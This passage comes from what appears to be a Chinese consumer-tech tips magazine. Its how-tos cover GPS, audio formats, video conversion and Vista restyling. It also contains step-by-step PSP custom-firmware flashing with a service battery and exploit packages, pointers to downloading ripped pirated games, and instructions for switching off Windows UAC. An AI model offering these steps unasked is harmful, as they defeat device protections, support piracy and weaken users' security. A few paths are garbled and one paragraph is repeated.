| 数据 | 含义 |
| --- | --- |
| Longitude | 经度 |
| Latitude | 纬度 |
| Dop | 精度强弱，该数值越小说明精度越好 |
| Acquiring | 定位维数，当仅连接到3颗卫星的时候显示2D，连接3颗以上卫星的时候显示3D |
| Direction | 移动方向 |
| Speed | 移动速度 |
| Altitude | 海拔高度，这个数值一般不准确，没什么参考价值 |
| PDop | 位置精度强弱，类似于Dop，该数值越小代表定位精度越高 |

> 小知识
> 什么是GPS的冷启动、温启动和热启动？
> GPS开机定位分为冷启动、温启动和热启动三种：
> 冷启动：以下几种情况开机均属冷启动：初次使用时；电池耗尽导致星历信息丢失时；关机状态下将接收机移动1000公里以上距离。
> 温启动：距离上次定位的时间超过两个小时的启动。
> 热启动：距离上次定位的时间小于两个小时的启动。
> 有时候如果机器有软件问题，需要进行冷启动，冷启动可以使用GPSviewer进行。

# 让来电铃声只在耳机里奏响

由于户外的噪音大，经常遇到听不见手机来电铃声的情况。于是不少年轻的手机用户总喜欢戴上手机原配耳机或者蓝牙耳机，这样就不会错过来电，同时还可以欣赏音乐。

可是这样有个问题，来电铃声不光耳机会响，机身喇叭也会响，这显然没有必要，能不能想法让铃声只在耳机里面响呢？经过笔者钻研，发现在Windows Mobile 6系统的手机上可以通过编写注册表实现来电铃声只在耳机里响的功能。

修改手机注册表的方法如下：

-   **第一步**：打开注册表，进入 `HKEY_CURRENT_USER\ControlPanel\Profiles` 目录，新建 `Microphone` 项。
-   **第二步**：在 `Microphone` 下新建“字符串”，名为 `LocName`，值为“耳机”。
-   **第三步**：在 `Microphone` 下新建“十进制”，名为 `Order`，值为6.4；再在 `Microphone` 下新建“字符串”，名为 `Name`，值为“耳机”。
-   **第四步**：重启一下手机，再插上耳机试试，看看是不是来电铃声就只能通过耳机响起了？

通过上述操作，笔者在自己的多普达手机（Windows Mobile 6.1系统）上实现了插上耳机，来电铃声只通过耳机放出来，外放喇叭不再工作的功能。使用WM 6系统的手机的朋友都可以试试看。

# 警惕！APE也不保真？

随着对音质要求的飙升，不少朋友越来越青睐于“无损压缩”的APE格式音乐。但你是否想到，有些APE格式的音乐并没有CD的“纯正血统”，而是由高比特率的MP3转换来的。根不正苗不红的“APE音乐”简直就是鸡肋，严重欺骗了我们的感情。那么如何判断你下载的APE音乐到底是不是纯正的APE音乐呢？这里我们可以用auCDtect工具来进行检测。

用Foobar2000将APE文件转换为WAV格式。没听说过Foobar2000？播放、转换APE格式音乐可是相当厉害哦。具体方法是点击相应的APE文件，右键选择“Convert (转换)”-“Convert to (转换为)”，在编码中选择编码为WAV（见图1）。

将auCDtect.exe和转换得到的WAV文件放到一个目录中，例如`D:\1`，然后在开始菜单的附件中找到“命令提示符”（没办法，很多有用的软件都没有图形界面），在黑窗口中输入`D:\1\auCDtect D:\1.wav`并回车就可以了。

如果将`D:\1\1.wav`换成`D:\1\*.wav`则检测`D:\1`文件夹下所有WAV文件。其实还可以添加一个`-mS`（S是数字）参数以提高识别能力，其完整的形式为：`d:\1\auCDtect -m0 d:\1\*.wav`；字母m后面的数字可以设置为0-40，0是最慢但准确性最高的，默认值是8。

查看测试结果（见图2）。下方会显示“This track looks like CDDA with probability 100%”，即“这个音轨看上去100%可能是由CD转换来的”，说明音质应该不错。如果出身有问题则显示类似“This track looks like MPEG with probability 95%”，说明这段音频音质可能有较大损失。

最后提醒一下，任何软件都不能完全“轻信”，仅供参考哦。如果一个APE大文件有N个音轨，最好分离出来检测。对于一些使用早期编码技术的音频文件，即使分轨检测，检测结果也只能看出是CDDA，且可能性也很低，平均约在50%左右。但几乎不会提示为MPEG。

# 没有EQ，创造EQ也要上

有一部分高档的MP4播放器拥有多种特色音效功能，可以把普通的MP3歌曲播放出非常出色的效果。但是并不是所有的MP4播放器都具备这个功能。那么，是不是低端的MP4播放器就无法享受特色音效了呢？其实不然，我们可以通过电脑给MP3歌曲“植入”特色音效属性，然后存入普通MP3播放器，也能感受比较不错的音效提升。这里，我们通过常用的千千静听就可以实现“植入音效”的功能。

-   **第一步**：启动千千静听，然后点击主面板的EQ按钮，设置歌曲的均衡。如果觉得手动设置比较麻烦，可以点击Presets来对歌曲进行推荐设置，可以在事先设定好的均衡选项中选择。
-   **第二步**：歌曲均衡选择好之后，回到播放列表，选择要进行转换的歌曲，按鼠标右键，选择转换格式。比如，在音效处理中选择，启动当前杜比环绕设置。
-   **第三步**：选好之后，点击立即转换按钮，就开始对歌曲进行转换。这样MP3歌曲本身就带有杜比音效，就算在低档的MP3播放器中也可以拥有杜比音效。另外，也可以根据歌曲的风格，植入其他风格音效。有兴趣的朋友不妨试试哦。

# 解决CUE文件乱码

APE已经成为了网络上比较流行的无损音乐格式。很多时候我们下载下来的音乐文件是一个完整的APE文件，包含了一整张音乐CD的内容，同时，除了APE文件外，还有一个cue文件。这个cue文件其实包含着歌曲的索引信息，只有通过这个文件我们才能将单首歌曲的信息显示出来。此外，当我们对整张音乐CD的APE文件进行切割时，也必须用到cue文件。

但是由于文字编码的问题，我们经常会碰到cue文件乱码的情况（见图）。而一旦cue中的文字是乱码，无论在哪一种音乐播放软件中，显示的歌曲名也统统是乱码，那么如何才能将cue文件中的乱码全部转换为简体中文呢？

这里教大家一个简单的办法：安装foobar播放器，运行后将乱码的cue文件拖动到foobar的播放列表中，这时会列出所有的歌曲信息。当然现在这些歌曲信息显示的还都是乱码。我们将所有的乱码歌曲信息选中，在上面点击右键，在出现的菜单中依次选择“标签→从freedb获取标签”。这时foobar会自动连接freedb服务器，不用多久就会出现一个标签选择窗口，在“匹配”一栏中我们可以选择符合条件的标签，然后点击“更新文件”就可以将所有的乱码替换为简体中文了。最后需要提醒一下，从freedb获取标签需要在联网的状态下进行。

# 手中的Youtube

FLV视频格式有一个最大的特点，占用体积小，而且清晰。但是网络中的FLV视频文件的资源非常少，有很多视频文件只有AVI、RM格式，而没有FLV格式。那么就需要我们手动来进行转换。介绍一款名字为Ultra Video To Flash的软件，可以将常用的视频文件转换成FLV格式，就可以直接在MP4播放器上观看。

-   第一步：先进入Ultra Video To Flash主页面，点击Add File添加要进行转换的视频文件，如果视频文件较多，点击Folder按钮添加文件夹，文件夹所在的视频文件都会选择。Ultra Video To Flash支持的视频格式非常多，包括RM、Rmvb、AVI、Mpeg、Mov、3GP和MP4等。
-   第二步：选择好要进行转换的视频文件之后，点击Options按钮，进行设置。由于笔者的MP4播放器分辨率为320×240，所以视频尺寸也要设置成320×240，视频格式选择FLV。其他的设置不用改变，按照默认设置即可。
-   第三步：上面都设置好之后，最后点击Ultra Video To Flash主页面中的Convert按钮，就可以将所选视频转换为FLV格式。之后上传到MP4播放器当中，直接观看，而不用再去网络中辛苦找FLV格式的视频文件了。

# 听力也能双声道

具有双声道效果的音频文件是在左右声道上分别放置了不同的音乐或声音，在播放时既可以将两个声音合在一起，也可以根据需要临时屏蔽某一声道的声音，只播放希望听到的那个声道上的声音；如卡拉OK伴唱音乐就具有双声道效果。我们利用“会声会影10”中的一个音频滤镜插件，可以很方便地制作出具有双声道效果的音频文件，比如英语听力材料，这样做听力练习的时候，就不再为乏味的音效而烦心了。

在会声会影10中实现双声道效果要先安装一个“Pan. aft”插件，解压后将其复制到会声会影安装目录的插件文件夹中（盘符:\Program Files\Ulead Systems\Ulead VideoStudio 10\aft_plug）。

运行会声会影10，点击“音频”功能按钮，按“加载音频”将两个音频文件导入到音频素材库中。将欲放在左声道上的音频文件拖拉到时间轴视图中的“声音轨”上，在“声音和音乐”的属性页面上点击“音频滤镜”按钮，弹出“音频滤镜”设置窗口。在“可用滤镜”项选中“左右移动”，点击“添加”将其加到右侧的“已用滤镜”框中（见图1）。

选中后点击“选项”，在弹出的“左右移动”设置框中，将左声道的“开始”和“结束”项都设为100%，而右声道的“开始”和“结束”项都设为0%（见图2），按“确定”返回。同样，将放在右声道上的文件拖拉到“音乐轨”上，也对其使用“左右移动”滤镜，只是将左声道全部设为0%，而右声道全部设为100%即可。最后在“分享”功能中，点击“创建音频文件”，选择音频格式和保存路径后，按“保存”即可完成渲染输出。

通过这个方法，我们制作出来的英语听力练习音频就比以前的音效要动听多了，练习起英语听力来想必也更有兴趣。

## PSP远程对战，So easy！

随着《怪物猎人2G》、《梦幻之星携带版》等支持两台到四台小P联机游戏的火爆登陆，拾掇一帮机友共同攻略游戏成为联系感情的新桥梁。但有时候因为工作太忙，想凑在一块儿不太容易，这时就可利用小P的WiFi功能，搭配PC端的“盟区对战平台”远程联机玩游戏。

-   **第一步：战前硬、软件端准备**
    要想在小P上搭建类似于“浩方对战平台”的无线联机平台，在硬件端需要准备PSP主机一个、带双网卡的电脑一台（要求一块普通网卡，一块支持IEEE 802.11b标准的无线网卡）；软件端需要准备“盟区对战平台”EXE包、支持联机的PSP游戏执行包一个。联机游戏方面，就以目前比较流行的《怪物猎人2G》为例，为大家展开讲述。
    首先要确保两块网卡均可以正常工作（见图1），检测方式是：鼠标右键单击“我的电脑”，依次单击“属性→硬件→设备管理器→网络适配器”，如果发现有设备图标前是叹号的话，说明网卡并未正确安装，可尝试使用PC机或网卡配套的驱动光盘执行驱动的安装工作。

-   **第二步：网卡兼容性测试**
    这是很关键的一步，只需依次点击“开始→控制面板→网络连接”，鼠标右键选中“无线网络连接”，依次点击“无线网络配置→高级→仅计算机到计算机（特定）→自动连接到非首选的网络”，单击“确定”按钮退出即可（见图2）。
    这时上推小P左侧的WiFi开关启动WiFi，运行《怪物猎人2G》，读取存档后，控制人物跑向“在线集会所”，这时小P的绿色指示灯会狂闪。在PC端用鼠标右键点击屏幕右下角的“无线网络”图标，点击查看可用的无线网络。如果XP能自动搜索到PSP并与之连接，就表示网卡兼容；如果搜索不到或者搜到但连接不上（比如已知的Intel系列网卡），这时就只能换网卡或USB网卡了。

-   **第三步：注册账号和执行联机平台**
    在PC端打开盟区对战平台，点击进入“注册”界面，依次填写用户名、密码及电子邮箱后提交。这时回到登录界面填写刚刚注册的账号和密码，点击“登录”按钮。再点开左上角的设置，选择刚刚测试好的无线网卡即可（见图3）。
    这时在PSP端启动联机游戏《怪物猎人2G》，把WiFi开关推上去后，控制人物跑进“在线集会所”，小P的WiFi灯会不停闪烁。再在PC端进入盟区的“怪物猎人2G专区”，会看到小P已经被搜索到并连接成功，只需用鼠标双击任意房间，PSP端的在线人名就会多出一个玩家来，这也表示联机成功。如果是因为工作太忙不能随时相聚的机友，或者在远方的伙伴，都可约定好房间号，即可开始远程联机游戏，共同作战，体验小P的无限魔力了。

## 如何开启Office 2007中的朗读功能

文/孙童

我知道在Excel 2003中，可以通过“视图→工具栏→文本到语音”来使用朗读单元格功能检校我输入的数据。但是在Excel 2007中，“文本到语音”找了半天都没有找到，甚至在帮助文件中也找不到它的踪迹。

但是再经过一些“研究”，我们可以通过在Excel 2007窗口的左上角添加一个快速启动工具栏来实现这一功能。

单击Office图标选择“Excel选项→自定义”；在弹出的对话框左上方的下拉菜单中单击“不在功能区中的命令”，选择其中的“朗读单元格”，最后单击“添加”按钮完成操作。添加完“朗读单元格”按钮后，你还得把“停止朗读单元格”按钮也添加进去。另外你也可以选择“按行朗读单元格”、“按列朗读单元格”或是“按Enter开始朗读单元格”按钮，完成后单击“确定”。选中表格中的一列，然后点击“朗读单元格”按钮，就能听见逐条朗读单元格内容的声音了。

单击Office图标选择“Excel选项→自定义”；在弹出的对话框左上方的下拉菜单中单击“不在功能区中的命令”，选择其中的“朗读单元格”，最后单击“添加”按钮完成操作。添加完“朗读单元格”按钮后，你还得把“停止朗读单元格”按钮也添加进去。另外你也可以选择“按行朗读单元格”、“按列朗读单元格”或是“按Enter开始朗读单元格”按钮，完成后单击“确定”。选中表格中的一列，然后点击“朗读单元格”按钮，就能听见逐条朗读单元格内容的声音了。

## 刷机失败不用愁，记忆棒+电池拯救PSP

PSP版本多多，并且更新速度快，万一哪一天一个不注意小P就变成了砖头，这可怎么办？不用怕，我们可以利用普通电池和记忆棒制作而成的神奇套装，通过电池引导记忆棒上的初始化程序，可在刷机失败等特殊情况下跳过主机引导，达到修复小P的目的。笔者就以PSP1000为例，为大家展开讲述。

### 答疑解惑

**哪些型号的PSP可以制作神奇套装？**
神奇套装必须在已破解的系统上才能制作。PSP1000全系列都可以，PSP2000系列只有采用“TA-088 V3”主板的不可以，PSP3000全系列由于暂时还未破解，所以均不可以。建议大家使用小P原装电池，组装电池很有可能制作不成功。

**如何查看PSP主板型号？**
在STEP02中运行“U.P.T”程序时，界面上方黄色字体“Motherboard Version:”后面就是小P的主板型号，例如笔者的小P主板型号为“TA-079 v1”。

**安装过程中如果不慎中断该怎么办？**
如果在安装中不慎断电，或按错键错选，可按当前步骤重新执行一次即可，不会对小P产生大的影响。

### 制作神奇记忆棒

在PC端下载并按照提示安装“神电V8制作工具安装包.msi”，下载地址：http://www.cbifamily.com/download/200911.html。在PSP端选“设定→USB”，按×键连接。这时在PC端打开“我的电脑”，进入记忆棒，将ISO目录文件备份到PC端。而后启动制作程序，按照提示输入记忆棒的盘符按“回车键”，再输入Y确认（见图1）。

这时依照提示，等待小P的橘红色指示灯停止闪烁，按○键返回并断开连接，等待10秒后再按×键连接。在PC端等待“我的电脑”里出现新盘符后，切换到刚才的程序按任意键继续。在程序提示全部完成后，按任意键退出。这时再等小P的橘红色指示灯不再闪烁时，按○键断开连接，上推3秒POWER键完全关机即可完成制作神奇记忆棒工序。

### 制作神奇电池

启动小P，选择“游戏→Memory Stick”，按“×”键进入，选中U.P.T；再按×键；再依次选择“Stage 1：IPL→×键→Install TM-IPL to MS boot sector”；按×键运行；而后在图形界面按左键选“是”，再按×键确定，这时出现“IPL Installed”字样，按○键返回主菜单（见图2）。

接着依次选择“Stage 2：Battery→×键→Create Service Battery”，等待出现图形界面再按左选“是”，再按×键确定，这时会出现successfully字样，按○键返回（见图3）；然后依次选择“Main Menu→×键→Exit Installer”，再按×键退出；最后上推3秒Power键完全关机即可完成制作神奇电池工序。

### 安装神电菜单

小P开机后，如若使用了自制主题，请先依次选择“设定→主题设定→主题→原始”，按×键确定。再选择“游戏→Memory Stick”，按×键进入，再选中Despertar del Cementerio v8按×键进入并执行安装。
耐心等待进度条读满，会出现以Please开头字样的界面，按住向上键5秒，这时就会出现Installation completed（见图4）字样，再按×键退出即可。

最后上推3秒Power键完全关机，至此神奇套装就制作完毕。使用时，请先完全关机，然后按住向上键再推Power键，就会出现神电菜单，选择第一项按×键即可开始刷机或修砖等操作。

## PSP也玩压缩

随着PSP掌机的火爆，游戏端的开发也越来越大型化，动辄700MB甚至1G以上的ISO游戏比比皆是。如近期热门的《乐可乐可2》、《DJMAX》、《实况足球11》等ISO版本。这使得容量有限的记忆棒，更显得捉襟见肘。那么有没有什么办法，可以让心爱的小P既能放下更多的游戏，还能同时兼顾影音等其他娱乐呢？

要想让心爱的小P既能放下更多的游戏，还能同时兼顾影音等其他娱乐，在不改变记忆棒大小的情况下，通常可采取两种方式。不妨就以笔者的PSP1000为例，为大家展开讲述。一是利用一款名为PSP ISO COMPRESSOR的软件将PSP游戏的镜像文件（ISO）进行压缩。一般压缩后可减少30%~50%的体积，而且更值得欣喜的是，压缩前后的游戏文件在运行速度上没有多大区别，经实测，压缩版本可在PSP上流畅运行。推荐大家选用此方式。二是借助外援，在各大PSP论坛或资源网站，下载rip版的PSP游戏，通常这类版本被称为“阉割版”。

### 借助软件 压缩PSP游戏镜像

#### 第一步：下载并选择压缩格式

在PC端下载并解压缩“PSP ISO Compressor.rar”后，由于其是绿色软件，双击“PSP ISO COMPRESSOR.EXE”图标直接运行，支持将ISO文件压缩为DAX、CSO、JSO等文件类型。在软件主界面左侧的压缩选项中选择“ISO→CSO”（见图1）。

#### 第二步：选择压缩等级并输出

点击“输入文件”选项右侧的浏览按钮，选择需要压缩的ISO文件，以《乐可乐可2》为例，同时设置好输出文件的目录。硬盘空间不足的机友可勾选“转换完成后自动删除输入文件”选项，以便于转换完成后删除源文件。建议将“压缩等级”设置为“9”（最好的压缩效果）。一切搞定，单击“压缩”按钮，略等几分钟，游戏压缩完成。这时将压缩好的CSO文件通过USB数据线拷贝到记忆棒根目录的ISO文件夹中（见图2），即可玩《乐可乐可2》这类PSP游戏了，效果的确不错，且游戏运行正常、流畅。

> > **小知识**
>
> **把PSP游戏的ISO镜像压缩成CSO，运行游戏会不会卡？**
>
> 不会的，因为要在PSP上玩CSO格式的游戏必须要安装PSP的自制系统DEVHOOK，它能较好地支持运行CSO文件。有极少数CSO文件在运行时会出现丢帧及卡机现象，这时只需将PSP的CPU频率调高即可搞定，一般情况下不会出现类似问题。

> > **小知识**
>
> **DAX、CSO、JSO这些压缩格式是什么？**
>
> DAX和JSO是早期版本的DEVHOOK模拟系统才能支持的，已经基本淘汰。如今最流行的是CSO格式，它比DAX和JSO有着更好的压缩率。需要注意的是，目前主流的PSP自制系统M33已经不支持DAX和JSO格式了，因此利用PSP ISO COMPRESSOR将ISO转换为DAX或JSO并没有实际意义，一般均压缩为CSO格式。
>
> **PSP ISO COMPRESSOR是否支持解压缩？**
>
> 当然可以，该软件支持将CSO、DAX、JSO等格式的文件还原成ISO，并且支持这些格式之间的互转，方便机友们在运行游戏出现问题时能及时转换，当然压缩出现问题的概率一般很少。

### 借助网络下载阉割版的RIPGAME

rip版的PSP游戏就是在原游戏的基础上，删减游戏中的动画或者音乐（也有部分对原游戏中的CG和音频文件进行压缩）后，重新制作而成的游戏文件。虽然这些游戏被称为rip版，也就是俗称的阉割版，但是游戏元素依然很全面，而且游戏运行的速度还有一定的加快，起到了优化模块作用。

rip版的PSP游戏在容量上比原版小很多，有些甚至为原版容量的1/5。而且部分好的版本，不仅删减掉不必要的元素和不好看的CG画面，还优化了游戏性能，使得游戏运行更加流畅。目前网络上的rip游戏资源十分丰富，一些大的PSP玩家论坛上都有下载，机友们可通过谷歌、百度等搜索引擎，以“PSP游戏 rip”为关键字搜索，就能筛选出很多资源网站。需要注意的是，在下载某游戏前需要看作者的“rip说明”（见图3），了解对游戏元素的删减程度，如果觉得删减太多，就不要浪费时间下载，换其他资源链接即可。

## 升级软件 释放PSP的全部威力

刚玩小P时，可能很多机友只会玩昂贵的正版盘，只能眼巴巴地看着MP4格式的视频，电子书、PMP视频、记忆棒通通没门。那么如何才能打破小P这一魔咒呢？其实只需利用刷机升级手段即可释放小P的魔力。

### 疑难解惑

#### 什么是软、硬刷升级？

Flash，刷写，是一种对储存器的物理操作，这里主要针对闪存类储存器，指通过物理方式改变储存器上的值。通过PSP本身对PSP的Nand Flash芯片执行写操作叫做软刷，通过外部设备对PSP的Nand Flash芯片执行写操作叫做硬刷。

#### 如何确保小P安全升级到最新版本？

如果您的小P版本号为1.50，需要按照版本号“1.50→3.52M33→3.52M33-4→5.0M33-6”的顺序，按要求依次刷机方可安全升级。如果您的版本号是原版的2.71（PSP1000后期版本号）或3.71（PSP2000的原生版本号）的话，建议到维修点强制刷机，否则很容易变砖机。如果小P的版本号是数字后面还有字母，请根据自己的版本号按顺序选择从哪步开始。

#### 如果刷机失败怎么办？

需要先找一个装有神奇套装的小P，把它的电池和记忆棒换到自己小P上，按L键开机，如果出现英文界面，选择第一项按×键就能修复了；如果画面没有任何反应，那很有可能是主板出现问题，可找当地PSP电玩店进行维修。

### 查看PSP版本并选择升级模式

首先我们需要查看小P的系统版本，这样才能选择正确的升级模式。笔者以PSP1000为例，启动小P后，依次打开“设定（setting）→主机设定（system settings）→系统信息（system infomation）”，第一行显示的数字就是小P目前的版本号（见图1）。笔者就以1.50版本号为例，为大家展开讲述。



#### 1.50版本升级到3.52M33

下载3.52M33自制系统傻瓜包，下载地址：http://www.cbifamily.com/download/200910.html。里面有3个文件夹，如果小P的版本号后面不带字母，可直接把“kxploitpatcher”和“kxploitpatcher%”复制到记忆棒“PSP/GAME”目录下（有的机器的文件夹名为“GAME150”）。如果小P的版本号后面带字母就需要把“M33UPDATE_352”复制到“PSP/GAME”目录下。这时在PSP上运行“3.52 M33UPDATE”，进入程序会出现4行英文。如果您更新的是索尼官方的3.90M33版本，运行记忆卡内出现的3.90M33图标，按确定键就会出现3行英文（见图2），操作上均是按×键为确定更新，按R键为取消更新。



#### 3.52m33升级到3.52m33-4

下载3.52 m33-4升级包，把352mm-4文件夹复制到记忆棒“PSP/GAME”目录下，选中“时间”图标（见图3），按×键开始升级，等待Update succesfull字样出现，按×键盘关闭小P后，会自动重启，这时就表示本次升级成功。如果怕选错程序，可以先把STEP02中的程序文件夹删掉。



#### 3.52以上升级到5.0m33-6

如果是从3.52m33-4升级，就需要先来设置内核，即依次选中“完全关机→按住R键开机→进入Configuration”，按×键将Game folder homebrew选项调整到3.XX Kernel；如果是3.60m33以后的版本，可直接下载“5.0m33-6”傻瓜包，把“update”文件夹复制到“PSP/GAME”目录下。PSP2000的版本号通常都是从3.60开始，所以PSP2000的机友可参考这步的刷机流程。

然后照例运行5.00升级程序，这次的界面友好了很多，收到提示按×键确定，再按○键继续，这时会出来一堆协议，按右方向键进入一个有两个选项的界面，选第二项接受之后继续按右键。

再多按几次右键后按○键确定，耐心等待进度条更新完成，按○键自动重启，这时就将小P升级到最新版本了。机友们也可松一口气，终于可以开始玩转小P了，真正让心爱的小物尽其用。

## U盘多媒体 不开电脑看大片

如果你开机的目的只是为了看电影，那么就要忍受：Windows狂慢的启动、加载、关机。按下电源键去一趟厕所都不一定能启动完毕。要的只是看电影，不用那么多花哨的功能。有不少笔记本提供了不进Windows看电影的功能，当然并非所有的笔记本都提供这个功能；如果电脑不支持这个功能能不能自己DIY一个呢？当然可以，用GeeXboX就能做到。

GeeXboX可以安装在U盘、光盘、硬盘上。由于安装在硬盘上需要对硬盘进行重新分区，且对分区有一定的要求，从操作难度、风险、善后处理方面来说在U盘上面比较好，而笔记本需支持U盘启动（新机子都没问题）。此外，软件对系统的要求其实很低，最低只需要P2-400、64MB内存、兼容VESA2.0显卡。

> 小提示
GeeXboX是一个集成了Mplayer的微型Linux系统，支持大部分的媒体解码，例如：Divx、Xvid、RM、RMVB、Mpeg4、WMV、Mp3、VC-1、AAC、H.264等。

### 第一阶段——定制GeeXboX

首先下载GeeXboX ISO Generator，这是ISO光盘的定制器。下载地址：http://www.newhua.com/soft/41718.htm。

- 第一步：运行generator.exe并下载未包含的文件。点击"Packages"，Codecs中列的是一些解码器（见图1），这些解码器可能很有用，选择性勾选或者干脆全部勾选，然后点击"Download"并在弹出的协议框中选择"I agree"，软件会自动下载选择项。



- 第二步：在音频选项中主要设置声道（Number of Channels），根据自己的实际情况可以设置为2、4、6声道，6声道也就是常说的5.1声道。而视频选项可以设置"Auto Settings"（默认），如果你的输入设备比较特殊，例如某些非全高清的电视，就手动设置分辨率。

遥控（Remote control）、网络设置（Network）、服务（Services）、液晶显示（Lcd display）一般忽略就可以了，除非你有这方面的需求，不过键盘的快捷方式很实在（图2）。



生成ISO文件。确认一下各个地方的设置是否都弄好了，然后点击"compile!"生成ISO文件。

### 第二阶段——安装到U盘

软件并没有直接提供制作U盘的功能，需要“曲线救国”，先刻录成光盘（你也可以利用虚拟机加载ISO文件制作U盘版）。

- 第一步：用这张光盘启动，在图2所示的界面中选择“Install GeeXboX to disk”。如果嫌麻烦直接用光盘版，那么按下回车或者等待即可。注意此时U盘就应该插在USB口上了。

接下来屏幕会滚动一大堆字符，不用担心这是Linux在启动。软件会问你使用的键盘，一般选择默认的qwerty键盘，直接回车即可，也就是说根据你的键盘的第一行字母选择（见图3）。

- 第二步：选择安装的磁盘。这里暂时不能使用鼠标，使用键盘方向键进行选择项目，按下回车键确认。接下来会问你“Support for HDTV through X.Org？”（是否通过X.Org支持HDTV），直接按下回车即可。接下来的“USB Device to be reformatted”问你U盘将被格式化，是否继续？选择“Yes”。



接下来问你U盘的启动方式是USB-HDD还是USB-ZIP还是USB-FDD等，我选择USB-HDD，如果引导失败可以在这里调整选项。之后会要求你拔下再插上U盘，操作完成之后点击“OK”。

在“Have Fun！”中，提示已经安装完成，是否进行配置。由于我们之前配置过了，这里选择“NO”。到这里，U盘就制作完成了！系统会自动重新启动。

### 最后阶段——开心使用！

插入U盘，本本启动的时候按快捷键调出引导菜单选择从U盘启动；各款本子都不同，例如易PC是ESC、联想的某些本子是F2、HP的某些本子是F9，屏幕上都有提示。经过半分钟到一分钟的等待，进入了播放界面，很爽吧？

> 小提示
如果某些文件播放不正常，这可能是由于解码器的原因或者文件被破坏；有可能是下载不完整，所以碰到这类情况的时候可以使用All Media Fixer Pro这类修复软件进行修复，或许有救。另外，如果启动失败，试试换个U盘或者到官方主页看看你的本子是否在支持之列。

## Vista东施效颦，变身漂亮Windows 7

Windows 7问世以后，许多人都被它的美丽外表所折服。微软现任总裁鲍尔默说过“Windows7 实质就是Vista，只是比Vista好很多”，从Windows 7 RC版来看，它真的和鲍尔默说的一样。Windows 7和Vista使用的是同一个内核，那么也可以对Vista系统进行武装，变身Windows7!

> 东施效颦，如果连样子都和微软发布的Windows 7不一样的话，这个模仿的Windows 7就是一个失败产品，如果在界面上模仿像了Windows 7，那就成功了一半。而且这几年来每一代Windows都会做一些外观方面的改进，Windows7虽然还只是预测试版，还没到公开发布的测试版，界面已经漂亮不少了。外观改变主要体现在启动界面和登录界面。

> ★为了安全起见，在替换文件前备份原有的系统以便以后恢复方便。
★本文是在Vista SP1旗舰版下进行美化的。



### 第一步：改启动界面

Windows7目前的启动界面比Vista的启动界面要炫一些，我们看看如何替换修改它吧。Vista的启动界面保存在winload.exe.mui中，这个文件可以使用Vista Boot Logo Generator 1.1来编辑，也就是说除了更改为Windows 7风格之外，还可以试试看更改为更具有个性的启动界面。修改这个文件所使用的BMP文件最好使用系统自带的“画图”打开再保存一次，如果直接用其他软件进行修改过的图片，可能不能使用。
系统文件夹的文件默认情况下是无法直接改写和删除的，要替换文件首先要更改权限。定位到Windowssystem32zh-CN，找到Winload.exe.mui。在Winload.exe.mui上面点击右键，选择“属性→安全→高级→所有者”，点击下方的“编辑”，然后把所有者修改为当前使用的账户，然后点击“确定”（见图1）。再次在winload.exe.mui上面点击右键→安全→编辑→选择当前的用户，然后在权限编辑列表中把当前用户的权限设置为完全控制。

### 第二步：设文件权限

替换文件，这一步不用多说了吧。需要提醒的是，如果UAC正常开启，那么这几步操作都会触发多次UAC，做好心理准备哦。
在开始菜单的“搜索框”中输入msconfig并直接回车，启动“选项卡→勾选无GUI启动”。如果不选择“无GUI启动”，那么启动界面将会使用默认界面。
同样的，登录界面则替换C:\Windows\Branding\Basebrd下面的basebrd.dll文件。方法如上，具体就不多说了。图2就是修改后的登录界面（见图2）。

> 如何快速找到某个文件？要替换的文件在System32文件夹中，这个文件夹是系统的重要文件夹，里面的东西非常多也很杂；要想快速找到一个文件有两个办法，一个是使用右上角的“搜索框”，另外一个就是在主窗口（列出一堆文件的那个窗口）以较快的速度输入文件名。例如要找计算器，输入calc就能快速找到这个文件了。如果不记得文件的全名，还是用系统的搜索再配合通配符更快一些。





> 来看看如何改造Vista让它变得更体贴，让Vista不但形似Windows7，神也似。

### 第一步：让UAC不烦人

UAC是Vista引入的新功能，原意是为了让系统更安全。简单的说就是让需要高权限的程序需要确认才能运行，隔离了普通权限用户和管理员用户，只有Administrator才不受到限制。确实加了这个东西之后，只要不乱点确认，中木马的概率是很小的。但是由于Windows本身、周边应用程序还不能很好地适应这个新规则，导致了大家对UAC的反感。特别是有不少人喜欢对系统无拘无束地使用，不希望有太多提示，我们有两个方法来改造它。

#### 方法一：关闭UAC

这个方法适合那些极为讨厌UAC提示的人。进入控制面板→在左边任务列表中切换到经典视图→用户账户→打开或者关闭“用户账户控制”→去掉“使用用户账户控制（UAC）帮助保护您的计算机”前面的钩，点击“确定”。重启后UAC就关闭了。

#### 方法二：改造UAC

Windows7也有UAC但是它对UAC规则作了适当的修改，使得提示不那么多，自然也就不会惹人烦了。我们可以用诺顿提供的Norton UAC Tool来优化Vista的UAC。

下载并安装诺顿提供的Norton UAC Tool，官方下载地址为：

- 32位下载 ftp://ftp.symantec.com/miscsabunorton_labsNUACx86.exe
- 64位下载 ftp://ftp.symantec.com/miscsabunorton_labsNUACx64.exe

同意许可协议之后，软件会问是否开启UAC，默认选中表示使用UAC；点击Install就完成安装了（见图4）。如果在控制面板中关闭了UAC，那么这里选择使用UAC也是没有用的，必须要到控制面板中手动开启UAC。



这个程序提供了和UAC不同的提示，它会提示一些信息，它会告诉你是否通过数字签名验证、是否在受保护的目录，也可以记住这次的选择，这样一来下次使用这个程序的时候就可以不用重复点击“确认”了，确实比Vista要体贴（见图5），已经和Windows7差不多了。



### 第二步：改侧边栏

Vista引入的边栏工具其实是很有用的东西，虽然占用了一些资源但是工具还是很有意思的。当然只要是新东西总有人反对，反对者认为占用这些资源不值得，可是我则认为系统资源不用就是浪费，与其浪费不如用来干事情。

Windows7已经没有侧边栏了，只是没有这个栏位而已；引入的边栏工具不会消失，也就是说小工具可以在桌面的任何一个位置放置，其实Vista也可以做到类似的。

方法：在侧边栏那里用左键点击里面的小工具不放，拖动到桌面上。在侧边栏空白处点击右键，选择菜单中的“关闭边栏”（见图6）。这样就解决问题了，方法就是那么简单。



### 第三步：优化任务栏

有的朋友喜欢任务栏只显示图标，没有文字，那么只需要修改注册表或者直接使用Windows_7_Taskbar_Iconizer_by_Solo_Dev.exe这个小程序修改就可以（见图7）。



由此可见，Vista和Windows7确实有着相同的血脉关系。

Windows 7 Superbar也可以实现相同功能，到www.myfiles.com.cn/soft/42/42323.htm下载，在“Customization”的工具栏上选择的“Taskbar”，在选项里选中“Iconize your taskbar”，重启计算机就可以了。

### 第四步：软件界面的进化

